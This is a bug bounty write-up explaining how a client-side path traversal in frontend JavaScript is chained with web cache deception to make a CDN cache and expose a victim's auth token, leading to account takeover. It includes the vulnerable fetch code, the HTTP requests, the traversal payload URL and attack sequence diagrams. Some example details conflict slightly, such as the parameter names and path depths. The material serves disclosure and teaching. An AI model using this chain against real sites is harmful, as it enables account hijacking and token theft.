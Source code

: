 ```yaml
---
title: "Cache Deception + CSPT: Turning Non Impactful Findings into Account Takeover"
keywords: "cache deception, cspt, client-side path traversal, account takeover, bug bounty, web security, vulnerability chaining, security research"
date: 2025-08-17
lastmod: 2025-08-17
categories: [Security, Bug-Bounty, Web-Security]
tags: [cspt, cache-deception, account-takeover, web-security, bug-bounty, client-side-path-traversal, vulnerability-chaining]
toc: true
math: false
mermaid: true
---
```


Have you ever encountered two security issues that seem harmless individually, but when combined, result in an impactful vulnerability? That’s exactly what happened to me recently while auditing the main application of a private bug bounty program.

I discovered a **Client-Side Path Traversal (CSPT)** and a **Cache Deception** vulnerability in the same domain of the same application. Individually, these issues were unexploitable and had no real impact. However, when chained together, I was able to demonstrate **Account Takeover**.

Before diving into the details, if you’re not familiar with these concepts, I highly recommend checking out:

**For CSPT:**
- [Matan Ber's excellent introduction to CSPT](https://matanber.com/blog/cspt-levels/){:target="_blank"} – a thorough explanation of the concept from the basics.
- [My CSPT talk in Spanish](https://www.youtube.com/watch?v=TAl1UIdZbK8){:target="_blank"} – if you speak Spanish, I cover the fundamentals and some practical scenarios here.
- [This great CSPT presentation by Maxence Schmitt](https://www.youtube.com/watch?v=O1ZN_OCfNzg&pp=ygUbIGNsaWVudCBzaWRlIHBhdGggdHJhdmVyc2Fs){:target="_blank"}

**For Cache Deception:**
- [https://portswigger.net/web-security/web-cache-deception](https://portswigger.net/web-security/web-cache-deception){:target="_blank"}


## **Cache Deception**

During my initial reconnaissance, I found the following request:

```http
GET /v1/token HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: no-cache, no-store, must-revalidate
X-Cache: Miss from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As the endpoint was returning sensitive data, I decided to test if it was vulnerable to **Cache Deception** by adding a `.css` extension:


```http
GET /v1/token.css HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: max-age=86400, public
X-Cache: Hit from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As you can see, the response was identical and was being cached. This showed that the endpoint was indeed vulnerable to Cache Deception.

However, it required the `X-Auth-Token` header, which browsers cannot send automatically when users visit a URL directly. This made the Cache Deception vulnerability unexploitable, as an attacker could not force a victim’s browser to include his authentication token when making the request.


## **Client-Side Path Traversal**

While reviewing the frontend code, I found the following JavaScript:


```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('userId');

const apiUrl = `https://api.example.com/v1/users/info/${userId}`;

fetch(apiUrl, {
  method: 'GET',
  headers: {
    'X-Auth-Token': authToken
  }
})
.then(response => response.json())
.then(data => {
  displayUSERData(data);
})
.catch(err => console.error("Error loading user info:", err));
```

This shows a classic example of a **Client-Side Path Traversal** vulnerability. The `userId` parameter was being directly embedded into the API URL without any validation against path traversal.

<br>

```mermaid
sequenceDiagram
    participant U as USER
    participant C as BROWSER
    participant A as API

    U->>C: Visits<br/>https://example.com/profile?userId=104
    
    C->>A: GET /v1/users/info/104<br/>X-Auth-Token: [token]
    Note over C,A: Authenticated request
    
    A->>C: HTTP/1.1 200 OK<br/>Content-Type: application/json<br/>{"username":"Juan","...}
    Note over A,C: USER data returned
    
    Note over C: Display: "Welcome Juan"
```

<br>

Therefore, I could control the path of an **authenticated** request to the API. But what could I do with this control? I wasn't able to find any open redirect, nor could I manipulate the body of any API response. On its own, this CSPT was not exploitable.

## **The Chain**

At that point, I realized: what if I combined both findings?

The **CSPT** vulnerability allows me to control the path of an authenticated API request that includes the `X-Auth-Token` header, while the **Cache Deception** issue requires that header to be present in order to cache sensitive data.

In other words, **what if I used the CSPT to make an authenticated request directly to the cacheable endpoint?**

To test this, I crafted a **CSPT** payload that would traverse to the cacheable endpoint:

```
https://example.com/user?id=../../../v1/token.css
```

When a user visits this URL, the JavaScript constructs:
```
https://api.example.com/v1/users/info/../../../v1/token.css
```

Which resolves to:
```
https://api.example.com/v1/token.css
```

The key insight is that this request includes the user's **`X-Auth-Token`** header. Thus, when the CSPT triggers, it sends an authenticated request to the cacheable endpoint.

The API returns the sensitive token data, and the CDN caches the response.

Now, when anyone (including unauthenticated users) visits `https://api.example.com/v1/token.css`, the CDN serves the victim’s cached sensitive data, which includes their token, leading to account takeover.

<br>

```mermaid
sequenceDiagram
    participant A as ATTACKER
    participant C as VICTIM'S BROWSER
    participant CA as CDN
    participant API as API

    A->>C: "Click Here"
    Note over A,C: https://example.com/profile?id=<br/>../../token.css
    
    C->>CA: GET /v1/token.css<br/>X-Auth-Token: ...
    Note over C,CA: Authenticated request <br/>to cacheable endpoint
    
    CA->>API: GET /v1/token.css<br/>X-Auth-Token: ...
    
    API->>CA: {"token":"..."}
    Note over API,CA: Sensitive token data
    
    CA->>C: {"token":"..."}
    Note over CA,C: Cached sensitive token
    
    A->>CA: GET /v1/token.css
    Note over A,CA: Direct cache access<br/>(no auth required)
    
    CA->>A: {"token":"..."}
    Note over CA,A: Attacker retrieves victim's cached token
```

<br>

## **Conclusion**

Thank you for reading this write-up. I hope the attack chain was informative and provided new insights into how minor vulnerabilities, when combined, can create significant security risks, showing why it’s crucial to think beyond individual security mechanisms and never ignore seemingly unexploitable findings. In many cases, the most dangerous attacks result from chaining multiple vulnerabilities that appear harmless in isolation.

If you have any questions about the attack methodology, technical details, or want to discuss similar findings, feel free to reach out.